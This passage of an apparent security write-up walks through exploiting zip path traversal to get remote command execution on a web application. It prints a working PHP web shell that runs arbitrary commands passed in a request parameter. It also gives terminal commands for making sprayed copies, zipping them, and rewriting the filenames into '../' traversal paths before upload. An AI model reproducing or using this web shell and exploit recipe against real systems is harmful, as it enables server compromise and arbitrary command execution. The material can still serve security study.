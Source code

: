     create_zip()
    
    ```
    
    To achieve remote command execution I took the following steps:
    
    1. Create a PHP shell:
    
    ```
    <?php
    if(isset($_REQUEST['cmd'])){
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
    }?>
    
    ```
    
    1. Use “file spraying” and create a compressed zip file:
    
    ```
    root@s2crew:/tmp# for i in `seq 1 10`;do FILE=$FILE"xxA"; cp simple-backdoor.php $FILE"cmd.php";done
    root@s2crew:/tmp# ls *.php
    simple-backdoor.php  xxAxxAxxAcmd.php        xxAxxAxxAxxAxxAxxAcmd.php        xxAxxAxxAxxAxxAxxAxxAxxAxxAcmd.php
    xxAcmd.php           xxAxxAxxAxxAcmd.php     xxAxxAxxAxxAxxAxxAxxAcmd.php     xxAxxAxxAxxAxxAxxAxxAxxAxxAxxAcmd.php
    xxAxxAcmd.php        xxAxxAxxAxxAxxAcmd.php  xxAxxAxxAxxAxxAxxAxxAxxAcmd.php
    root@s2crew:/tmp# zip cmd.zip xx*.php
      adding: xxAcmd.php (deflated 40%)
      adding: xxAxxAcmd.php (deflated 40%)
      adding: xxAxxAxxAcmd.php (deflated 40%)
      adding: xxAxxAxxAxxAcmd.php (deflated 40%)
      adding: xxAxxAxxAxxAxxAcmd.php (deflated 40%)
      adding: xxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
      adding: xxAxxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
      adding: xxAxxAxxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
      adding: xxAxxAxxAxxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
      adding: xxAxxAxxAxxAxxAxxAxxAxxAxxAxxAcmd.php (deflated 40%)
    root@s2crew:/tmp#
    
    ```
    
    3.Use a hexeditor or vi and change the “xxA” to “../”, I used vi:
    
    ```
    :set modifiable
    :%s/xxA/..\\\\//g
    :x!
    
    ```
    
    Done!
    
    Only one step remained: Upload the ZIP file and let the application decompress it! If it is succeeds and the web server has sufficient privileges to write the directories there will be a simple OS command execution shell on the system:
    